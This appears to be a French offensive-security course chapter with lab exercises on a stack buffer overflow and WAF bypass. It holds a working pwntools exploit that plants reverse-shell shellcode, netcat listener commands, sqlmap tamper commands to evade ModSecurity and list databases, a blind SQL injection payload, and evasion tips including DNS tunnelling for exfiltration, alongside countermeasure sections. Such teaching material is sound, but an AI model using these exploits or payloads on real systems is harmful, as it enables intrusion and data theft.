


# Chapitre 03 : Vulnérabilités avancées et contournement des protections — Techniques de hacking et contre-mesures - Niveau 1

---

## Objectifs pédagogiques

- Exploiter un buffer overflow avec contrôle du flux d'exécution (EIP)
- Maîtriser les injections SQL avancées : blind, time-based
- Contourner un WAF (ModSecurity) avec sqlmap tamper scripts
- Appliquer les techniques d'évasion ([TA0005](https://attack.mitre.org/tactics/TA0005/) Defense Evasion)

---

## Introduction

Les défenses évoluent. Firewalls, WAF, IDS/IPS forment un maillage que les attaquants contournent quotidiennement. Le CERT-FR documente ces techniques d'évasion dans ses bulletins d'actualité hebdomadaires — les vrais attaquants utilisent exactement ces méthodes.

Ce chapitre est centré sur la tactique **[TA0005](https://attack.mitre.org/tactics/TA0005/) Defense Evasion** (50+ techniques). Les techniques de contournement par obfuscation et exploitation mémoire y sont abordées.

> **Sources :** [ATT&CK Defense Evasion](https://attack.mitre.org/tactics/[TA0005](https://attack.mitre.org/tactics/TA0005/)/). [CERT-FR](https://www.cert.ssi.gouv.fr/).

---

## 1. Buffer overflow — [T1068](https://attack.mitre.org/techniques/T1068/) Exploitation for Privilege Escalation

### Fonctionnement technique

Quand un programme appelle une fonction, il réserve un espace mémoire (stack frame). Les variables locales sont stockées avant l'adresse de retour :

```text
Adresses hautes
+-----------------------------+
|  arguments                  |
+-----------------------------+
|  adresse de retour (EIP)    | <-- Contrôler ce registre = contrôler l'exécution
+-----------------------------+
|  saved EBP                  |
+-----------------------------+
|  buffer local [64 octets]   | <-- strcpy() écrit ici sans limite
+-----------------------------+
Adresses basses
```

**Fig 9** — Organisation de la pile mémoire (stack frame) : le dépassement du buffer local de 64 octets écrase l'adresse de retour EIP, permettant de rediriger l'exécution.

Si on écrit plus de 64 octets dans `buffer`, on déborde sur EIP. En y plaçant l'adresse de notre shellcode, on redirige l'exécution du programme.



**Fig 10** — Chaîne d'exploitation buffer overflow : le payload `'A'*76 + NOP sled + shellcode` déborde EIP, qui pointe vers le shellcode pour une exécution arbitraire.

---

## Lab 3.1 — Buffer Overflow avec pwntools

###  Fiche

| Durée | Conteneur | Dossier | Technique ATT&CK |
|---|---|---|---|
| 1h | buffovf-target (port 9001) | `~/cours-hacking/jour-3/labs/` | [T1068](https://attack.mitre.org/techniques/T1068/) |

### Contexte métier

Les buffer overflows restent dans le top 3 des vulnérabilités critiques (MITRE CWE Top 25). Exploiter un BOF démontre la maîtrise de la mémoire — une compétence clé en sécurité offensive.

### Prérequis

```bash
# Démarre le conteneur vulnérable en arrière-plan et reconstruit l'image si nécessaire
# -d : mode détaché (arrière-plan), --build : rebuild l'image avant de lancer
cd ~/cours-hacking/repo && docker compose up -d --build buffovf

# Teste la connectivité TCP sur le port 9001 ; si le port est ouvert, affiche "OK"
# -z : scan TCP sans envoyer de données (zero I/O mode)
nc -z localhost 9001 && echo "OK"

# pip = gestionnaire de paquets Python (télécharge et installe des bibliothèques depuis PyPI)
# Installe pwntools (bibliothèque d'exploitation binaire) en ignorant les restrictions PEP 668
# --break-system-packages : autorise pip à écrire dans l'environnement système (Debian/Kali)
pip install --break-system-packages pwntools

# Crée le dossier de travail du lab (récursivement si nécessaire) et s'y déplace
mkdir -p ~/cours-hacking/jour-3/labs && cd ~/cours-hacking/jour-3/labs
```

### Étape 1 — Test crash

```bash
# Se place dans le dossier du lab
cd ~/cours-hacking/jour-3/labs

# Génère 100 caractères 'A' et les envoie via netcat au service vulnérable (port 9001)
# 'A'*100 = 100 octets > buffer[64] → débordement dans saved EBP et EIP
# Le pipe | redirige la sortie de python3 vers l'entrée standard de netcat
# python3 -c = exécute la chaîne de caractères comme du code Python, sans créer de fichier .py
# 'A'*100 = 100 octets > buffer[64] → débordement dans saved EBP et EIP
python3 -c "print('A'*100)" | nc localhost 9001
# → Input received: AAAA... (le programme répond avant de crasher — overflow confirmé)
```

### Étape 2 — Exploit avec reverse shell

Le code source vulnérable est dans `~/cours-hacking/repo/docker/buffovf/vuln.c` :

```c
void vulnerable_function(char *input) {
    char buffer[64];
    strcpy(buffer, input);  // PAS de strncpy → overflow !
}
```

```bash
# Se place dans le dossier du lab
cd ~/cours-hacking/jour-3/labs

# Crée le script d'exploit via un heredoc (PYEOF = marqueur de fin arbitraire)
# << 'PYEOF' : le contenu est écrit dans exploit_bof.py jusqu'au marqueur PYEOF
cat > exploit_bof.py << 'PYEOF'
#!/usr/bin/env python3
# Importe la bibliothèque pwntools (exploitation binaire : assembleur, connexions, shellcode)
from pwn import *

# Configure le contexte pour une architecture Intel x86 32 bits sous Linux
# context.arch : définit l'assembleur cible (i386 = instructions x86 32 bits)
# context.os : définit les conventions d'appel système du système d'exploitation cible (linux)
context.arch = 'i386'
context.os = 'linux'

# OFFSET = 68 octets : distance en octets entre le début du buffer[64] et l'adresse de retour (EIP)
# Décomposition : 64 octets (buffer) + 4 octets (saved EBP = base pointer sauvegardé)
# Le saved EBP est le pointeur de frame de la fonction appelante, sauvegardé sur la pile avant EIP
# Méthode de découverte : pwntools cyclic(200) génère un motif unique, puis cyclic_find(valeur_eip)
# retrouve l'offset exact après crash dans GDB
OFFSET = 68

# Adresse IP de l'hôte Kali (bridge docker0) vers laquelle le reverse shell se connectera
# Les conteneurs Docker utilisent docker0 (172.17.0.1) pour joindre l'hôte
CALLBACK_IP = "172.17.0.1"  # IP du bridge docker0
# Port d'écoute sur Kali où netcat attendra la connexion inverse
CALLBACK_PORT = 4444

print(f"[*] Reverse shell -> {CALLBACK_IP}:{CALLBACK_PORT}")
# shellcraft.i386.linux.connect() : génère un shellcode en assembleur x86 qui :
#   1. Crée un socket TCP (sys_socketcall)
#   2. Se connecte à CALLBACK_IP:CALLBACK_PORT (sys_connect)
#   3. Redirige stdin/stdout/stderr vers le socket (sys_dup2)
#   4. Exécute /bin/sh (sys_execve)
# asm() : assemble ce code source en opcodes machine (bytes exécutables)
shellcode = asm(shellcraft.i386.linux.connect(CALLBACK_IP, CALLBACK_PORT))

# NOP sled (toboggan de NOP) : séquence de 100 instructions NOP (0x90)
# Rôle : absorbe les imprécisions d'adresse mémoire. EIP peut atterrir n'importe où
# dans cette zone et "glissera" jusqu'au shellcode. Améliore la fiabilité de l'exploit
# en cas de léger décalage d'adresse (ASLR partiel, différences d'environnement)
nop_sled = b"\x90" * 100

# Adresse de retour injectée dans EIP : pointe vers le début du NOP sled dans la pile
# Structure mémoire visée : [buffer AAA...][EIP_ADDR][NOP sled][shellcode]
# Quand la fonction retourne, EIP est chargé avec cette valeur → exécution saute dans le NOP sled
# À trouver dans GDB : (gdb) run < <(python3 -c "print('A'*200)")
# Puis : (gdb) x/200x $esp  pour localiser le début du buffer sur la pile.
# Valeur typique sans ASLR : 0xffffcf00 - 0xffffd000
EIP_ADDR = 0xffffcf70   # <-- À ajuster après analyse GDB

# Construction du payload final :
#   b"A" * OFFSET   : remplit le buffer[64] + saved EBP (68 octets) avec des 'A' (padding)
#   p32(EIP_ADDR)   : écrase EIP avec l'adresse mémoire cible (packée en little-endian 32 bits)
#   nop_sled        : toboggan de NOP pour la fiabilité
#   shellcode       : code machine du reverse shell
# p32() convertit un entier 32 bits en 4 octets little-endian (ex: 0xffffcf70 → b'\x70\xcf\xff\xff')
payload = b"A" * OFFSET + p32(EIP_ADDR) + nop_sled + shellcode
print(f"[*] Payload : {len(payload)} octets, EIP -> {hex(EIP_ADDR)}")

# Établit une connexion TCP vers la cible vulnérable (localhost:9001) avec un timeout de 10 secondes
# remote() est l'équivalent pwntools de netcat/socket : gestion automatique de la connexion
r = remote('localhost', 9001, timeout=10)

# Envoie le payload suivi d'un retour à la ligne (\n)
# sendline() = send() + newline, ce qui déclenche la lecture par le programme vulnérable
r.sendline(payload)
print("[+] Payload envoyé. Vérifiez l'écouteur netcat.")

# Passe en mode interactif : tout ce qui est tapé au clavier est envoyé au reverse shell,
# et toute réponse du shell distant est affichée localement (lecture/écriture bidirectionnelle)
r.interactive()
PYEOF
echo "Fichier créé : exploit_bof.py"
```

### Étape 3 — Lancer l'attaque

```bash
# === Terminal 1 : Écouteur reverse shell ===
# -l : mode écoute (listen), attend une connexion entrante
# -v : mode verbeux (verbose), affiche les informations de connexion
# -n : pas de résolution DNS (évite les latences inutiles)
# -p 4444 : écoute sur le port TCP 4444
nc -lvnp 4444

# === Terminal 2 : Lancement de l'exploit ===
# Se place dans le dossier contenant le script d'exploit
cd ~/cours-hacking/jour-3/labs
# Exécute l'exploit BOF : envoie le payload (padding + EIP + NOP sled + shellcode)
# Si réussi, le shellcode se connecte au Terminal 1 et fournit un shell interactif
python3 exploit_bof.py
```

**Checkpoint :** Retournez dans le **Terminal 1** (netcat) : une connexion entrante et un prompt shell apparaissent. La cible (buffovf) exécute le shellcode.

### Diagnostic reverse shell IP

```bash
# Extrait l'adresse IP de l'interface docker0 (bridge utilisé par les conteneurs pour joindre l'hôte)
# ip addr show docker0 : affiche la configuration réseau de l'interface docker0
# grep 'inet '          : filtre uniquement la ligne contenant l'adresse IPv4 (ignore inet6)
# awk '{print $2}'      : extrait le champ IP/masque (ex: 172.17.0.1/16)
# cut -d/ -f1           : retire le masque CIDR pour ne garder que l'adresse IP
ip addr show docker0 | grep 'inet ' | awk '{print $2}' | cut -d/ -f1
# → généralement 172.17.0.1

# Vérifie que le conteneur buffovf-target peut joindre l'hôte Kali via le bridge docker0
# docker exec : exécute une commande à l'intérieur du conteneur sans shell interactif
# -c 1 : envoie un seul paquet ICMP (un seul ping, pas de boucle infinie)
# ping = teste la connectivité réseau en envoyant des paquets ICMP Echo Request
# -c 1 = envoie un seul paquet (sans -c, ping boucle indéfiniment sous Linux)
docker exec buffovf-target ping -c 1 172.17.0.1
```

### 🔒 Contre-mesure (M1050 Exploit Protection)

Le buffer overflow a réussi parce que le binaire a été compilé **sans aucune protection**. En réactivant les protections standard, l'exploit devient impossible :

| Protection | Flag gcc | Effet sur l'exploit |
|---|---|---|
| **Stack Canary** | `-fstack-protector-strong` | Valeur aléatoire entre buffer et EIP — écrasée → crash détecté |
| **NX/DEP** | `-z noexecstack` (retiré) | La pile n'est plus exécutable → shellcode inutilisable |
| **ASLR** | `kernel.randomize_va_space=2` | Adresses aléatoires → impossible de prédire `EIP_ADDR` |
| **PIE** | `-pie -fPIE` | Le binaire lui-même est randomisé |
| **FORTIFY_SOURCE** | `-D_FORTIFY_SOURCE=2` | Remplace `strcpy()` par `__strcpy_chk()` avec vérification de taille |

```bash
# Recompiler le binaire AVEC protections
docker exec buffovf-target bash -c "
  # gcc = GNU Compiler Collection, compile du code source C en binaire exécutable
# -o /opt/vuln_secure = nomme le fichier binaire de sortie ; les flags de sécurité sont détaillés ci-dessus
gcc -fstack-protector-strong -D_FORTIFY_SOURCE=2 -pie -fPIE -g -o /opt/vuln_secure /tmp/vuln.c
  chmod 4755 /opt/vuln_secure
  echo 'Compilation sécurisée terminée'
"
# Activer ASLR complet sur le conteneur
docker exec buffovf-target bash -c "echo 2 > /proc/sys/kernel/randomize_va_space"
# Re-tester le crash : le stack canary détecte le dépassement
python3 -c "print('A'*100)" | docker exec -i buffovf-target /opt/vuln_secure 2>&1
# → *** stack smashing detected *** (le canary a bloqué l'overflow !)
```

> **Checkpoint défensif :** Avec `-fstack-protector-strong` et ASLR, le binaire résiste à l'overflow. Le shellcode ne s'exécute plus.

---

## Lab 3.2 — Contournement WAF avec sqlmap

###  Fiche

| Durée | Conteneur | Technique ATT&CK |
|---|---|---|
| 45 min | waf-target (port 8081) | [T1562.001](https://attack.mitre.org/techniques/T1562/001/) Impair Defenses |

### Contexte technique

Un WAF (Web Application Firewall) bloque les signatures d'attaque connues. Mais il ne comprend pas le sens — il ne fait que du pattern matching. Si on modifie légèrement la syntaxe sans changer le sens, ça passe. C'est le principe de tous les tamper scripts sqlmap.



**Fig 11** — Contournement WAF par fragmentation de payload : `id=1/**/OR/**/1=1` échappe à la détection de signature SQLi et atteint l'application.

### Étape 1 — Vérifier le blocage

Dans un terminal :

```bash
# Requête légitime sans injection SQL : le paramètre id=1 est normal
# -s : mode silencieux (silent), masque la barre de progression et les erreurs curl
# -o /dev/null : jette le corps de la réponse HTTP (on ne veut que le code de statut)
# -w "%{http_code}" : affiche uniquement le code HTTP de la réponse (write-out format)
curl -s -o /dev/null -w "%{http_code}" "http://localhost:8081/?id=1"
# → 200 (OK, pas de détection)

# Tentative d'injection SQL avec OR 1=1 (encodage URL : espace → %20)
# La signature SQLi classique "OR 1=1" est reconnue par le WAF ModSecurity
# qui bloque la requête avant qu'elle n'atteigne l'application PHP/MySQL
curl -s -o /dev/null -w "%{http_code}" "http://localhost:8081/?id=1%20OR%201=1"
# → 403 (Forbidden, le WAF a détecté et bloqué la signature d'attaque)
```

### Étape 2 — Bypass avec sqlmap

```bash
# Se place dans le dossier de travail du lab
cd ~/cours-hacking/jour-3/labs

# Lance sqlmap contre l'application protégée par WAF avec 3 scripts d'obfuscation
# -u : URL cible avec le paramètre à tester (id est le point d'injection)
# --tamper=space2comment,charencode,randomcase : applique successivement 3 scripts de transformation
#   du payload pour échapper aux signatures statiques du WAF (pattern matching)
#   - space2comment : remplace les espaces par des commentaires /**/ (fragmente la signature)
#   - charencode   : encode les caractères spéciaux en URL (%27 au lieu de ')
#   - randomcase   : randomise la casse des mots-clés SQL (sELeCt au lieu de SELECT)
# --batch : mode non-interactif, répond automatiquement "oui" à toutes les questions
# --dbs : une fois l'injection réussie, énumère toutes les bases de données MySQL
# 2>&1 : redirige la sortie d'erreur (stderr) vers la sortie standard (stdout)
# | tee sqlmap_waf_bypass.txt : affiche ET enregistre simultanément dans un fichier
sqlmap -u "http://localhost:8081/?id=1" \
  --tamper=space2comment,charencode,randomcase \
  --batch --dbs 2>&1 | tee sqlmap_waf_bypass.txt
```

**Checkpoint :** sqlmap contourne le WAF et liste les bases.

### Tamper scripts utilisés

| Tamper | Effet | Avant → Après |
|---|---|---|
| `space2comment` | ` ` → `/**/` | `1 OR 1` → `1/**/OR/**/1` |
| `charencode` | Encode les caractères spéciaux | `'` → `%27` |
| `randomcase` | Casse aléatoire | `SELECT` → `sELeCt` |

### 🔒 Contre-mesure (M1041 WAF + M1054 Input Validation)

Le WAF a été contourné parce qu'il fait du **pattern matching** (regex), pas de l'analyse sémantique. Pour bloquer ces contournements :

| Contournement | Contre-mesure WAF | Défense en profondeur |
|---|---|---|
| `space2comment` (`/**/`) | Anomaly scoring → détecter le burst de tentatives | Validation applicative : n'autoriser que `[0-9]+` pour le paramètre `id` |
| `charencode` (`%27`) | Décodeur d'entités → normaliser avant analyse | Requêtes préparées (défense ultime, indépendante du WAF) |
| `randomcase` (`sELeCt`) | `SecDefaultAction` avec `t:lowercase` | Pare-feu applicatif + PDO = double couche |

```bash
# Durcir le WAF ModSecurity avec le mode Anomaly Scoring (bloque après N détections)
docker exec waf-target bash -c "
  cat >> /etc/modsecurity.d/modsecurity.conf << 'EOF'
# Mode détection → blocage : après 5 anomalies, l'IP est bannie 10 minutes
SecAction \"id:900001,phase:1,nolog,pass,setvar:tx.anomaly_score=0\"
SecRule TX:ANOMALY_SCORE \"@ge 5\" \"id:900002,phase:2,deny,status:403,log,msg:'WAF bloque: score anormal'\"
EOF
"
# Re-tester sqlmap avec tamper scripts après durcissement WAF :
curl -s -o /dev/null -w "%{http_code}" "http://localhost:8081/?id=1%20OR%201=1"
# Toujours 403 — mais cette fois le score d'anomalie s'accumule et l'IP est bannie
# sqlmap --tamper=space2comment,charencode,randomcase échouera après quelques requêtes
# → Le WAF en mode scoring bloque même les payloads obfusquées
```

> **Checkpoint défensif :** Le WAF en mode anomaly scoring détecte le burst de tentatives sqlmap et bloque l'IP. La défense en profondeur (WAF + requêtes préparées + validation applicative) rend l'injection SQL impossible.

---

## Exercices

### Exercice 1 : Offset EIP avec GDB

**Énoncé :** Confirmez l'offset EIP dans le conteneur.

<details><summary><strong>Solution</strong></summary>

```bash
# Ouvre un shell bash interactif dans le conteneur buffovf-target
# -i : mode interactif (stdin attaché au terminal)
# -t : alloue un pseudo-TTY (terminal virtuel) pour un affichage correct
docker exec -it buffovf-target bash

# Se place dans /opt et lance GDB en mode silencieux sur le binaire vulnérable
# -q : quiet, supprime le message de bienvenue GDB
# gdb = GNU Debugger, débogueur pour examiner mémoire, registres et flux d'exécution d'un programme
# -q = mode quiet, supprime le message de bienvenue
cd /opt && gdb -q ./vuln

# Dans GDB : exécute le programme avec 100 'A' en entrée pour provoquer le buffer overflow
# < <(...) : substitution de processus — l'entrée standard de run est redirigée
# depuis la sortie de python3. Le programme crashe et GDB affiche la valeur de EIP
# écrasée (normalement 0x41414141 = 'AAAA' en ASCII), confirmant le contrôle du flux.
(gdb) run < <(python3 -c "print('A'*100)")
# Noter la valeur de EIP après crash (ex: EIP = 0x41414141 → les 'A' ont bien écrasé l'adresse de retour)
```
</details>

### Exercice 2 : Blind SQLi sur DVWA medium

**Énoncé :** Extrayez un nom d'utilisateur via blind SQLi booléenne (sans union-based).

<details><summary><strong>Solution</strong></summary>

```sql
' AND SUBSTRING((SELECT user FROM users LIMIT 1), 1, 1)='a' --
-- Si la page montre 5 users, le 1er caractère est 'a'. Sinon, essayer 'b'...
```
</details>

### Exercice 3 : Choisir la technique d'évasion

**Énoncé :** Pour chaque scénario, donnez la technique ATT&CK + l'outil/commande :

1. Scan réseau sans déclencher l'IDS
2. SQLi bloquée par WAF
3. Exfiltration malgré firewall qui bloque le port 443

<details><summary><strong>Solution</strong></summary>
1. [T1001](https://attack.mitre.org/techniques/T1001/) Data Obfuscation → `nmap -f -T1`
2. [T1562.001](https://attack.mitre.org/techniques/T1562/001/) Impair Defenses → `sqlmap --tamper=space2comment,randomcase`
3. [T1572](https://attack.mitre.org/techniques/T1572/) Protocol Tunneling → DNS tunnel (iodine) ou [T1048.003](https://attack.mitre.org/techniques/T1048/003/) Exfiltration Over Alternative Protocol
</details>

---

## Points clés à retenir

- **Buffer overflow** : écrire au-delà du buffer → contrôler EIP → exécuter du code arbitraire
- **Reverse shell IP** : depuis un conteneur Docker vers Kali, utiliser `docker0` (172.17.0.1)
- **WAF bypass** : le WAF fait du pattern matching, pas de la compréhension sémantique
- **[TA0005](https://attack.mitre.org/tactics/TA0005/) Defense Evasion** : 50+ techniques documentées dans ATT&CK
- Les vrais attaquants utilisent ces méthodes — le CERT-FR les documente chaque semaine

## Pour aller plus loin

- [ATT&CK Defense Evasion ([TA0005](https://attack.mitre.org/tactics/TA0005/))](https://attack.mitre.org/tactics/[TA0005](https://attack.mitre.org/tactics/TA0005/)/)
- [Corelan Exploit Development](https://www.corelan.be/index.php/articles/)
- [Awesome WAF](https://github.com/0xInfection/Awesome-WAF)
- [CERT-FR](https://www.cert.ssi.gouv.fr/)

---

